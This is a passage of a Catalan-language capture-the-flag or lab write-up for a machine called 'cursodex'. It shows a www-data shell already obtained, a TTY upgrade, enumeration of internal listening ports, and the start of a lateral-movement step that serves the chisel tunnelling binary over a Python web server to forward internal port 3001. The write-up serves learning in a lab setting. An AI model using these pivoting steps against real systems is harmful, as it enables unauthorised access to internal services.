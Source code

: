 Obtenim una consola amb l'usuari `www-data`.

![www-data shell](../../../assets/images/cursodex/20250922_012510_image.png)

## Moviment lateral

Fem el tractament de la TTY per poder treballar de manera més còmoda amb la nostra shell.

Podem observar que internament hi ha diversos ports oberts.

```bash
www-data@cursodex:/var/www/admin$ ss -ano|grep tcp|grep LISTEN
tcp   LISTEN     0      4096                                    127.0.0.1:11434                  0.0.0.0:*                           
tcp   LISTEN     0      511                                     127.0.0.1:3001                   0.0.0.0:*                           
tcp   LISTEN     0      4096                                    127.0.0.1:43831                  0.0.0.0:*                           
tcp   LISTEN     0      511                                             *:80                           *:*                           
mptcp LISTEN     0      4096                                    127.0.0.1:11434                  0.0.0.0:*                           
mptcp LISTEN     0      4096                                    127.0.0.1:43831                  0.0.0.0:*  
```

El port que ens interessa és el `3001`, així que utilitzem `chisel` per redirigir-lo cap a la nostra màquina atacant.

Per fer-ho, compartim el binari de chisel des de la nostra màquina mitjançant un servidor web.

```bash
cp /usr/bin/chisel .
python3 -m http.server 80
```
